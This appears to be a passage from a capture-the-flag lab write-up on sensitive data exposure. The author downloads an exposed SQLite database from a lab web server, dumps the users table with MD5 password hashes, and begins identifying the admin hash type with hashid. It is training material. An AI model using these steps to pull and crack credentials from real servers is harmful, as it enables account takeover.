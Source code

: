 2. Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?

- [Index of /assets](http://10.10.45.163/assets/)

`webapp.db`

1. Use the supporting material to access the sensitive data. What is the password hash of the admin user?

```
wget http://10.10.45.163/assets/webapp.db

file webapp.db
webapp.db: SQLite 3.x database, last written using SQLite version 3022000
```

```
sqlite3 webapp.db

SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
sessions  users
sqlite>
```

```
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
```

```
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0
```

`6eea9b7ef19179a06954edd0f6c05ceb`

2. Crack the hash. What is the admin's plaintext password?

```
hashid 6eea9b7ef19179a06954edd0f6c05ceb

Analyzing '6eea9b7ef19179a06954edd0f6c05ceb'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```
